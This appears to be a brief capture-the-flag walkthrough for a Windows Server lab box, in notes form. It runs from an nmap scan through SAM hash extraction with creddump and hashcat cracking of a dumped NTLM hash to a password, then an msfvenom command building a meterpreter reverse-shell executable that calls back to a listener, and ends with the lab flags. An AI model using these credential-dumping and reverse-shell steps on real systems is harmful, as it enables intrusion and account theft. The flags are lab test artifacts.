










# SAM


## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2021-03-14T20:16:02+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## SMB ENUMERATION





## EXTRACTING SAM FILES

* [https://miloserdov.org/?p=4129](https://miloserdov.org/?p=4129)



* CREDDUMP \([https://github.com/moyix/creddump](https://github.com/moyix/creddump)\)

```text
https://tools.kali.org/password-attacks/creddump
```



```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jamie:1001:aad3b435b51404eeaad3b435b51404ee:68b1d3b0493ec0d6a1c0b8725062ab71:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:661e39b67cabec9066e1de26094770ab:::
```

### CRACKING HASHES

* [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) \(HASH MODE 1000\)

```text
hashcat -m 1000 hashes.txt rockyou.txt
```

```text
jamie:rangers
```



## SERVICES FOUND

* C:\Services





## EXPLOIT

```text
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=7777 -f exe -o monitor1.exe
```







## FLAGS

### USER

```text
74ae5253abdba3a1769280a36f56e0e8
```

### ROOT

```text
92006a1bd2d08f0908b8634ffcc72a74
```


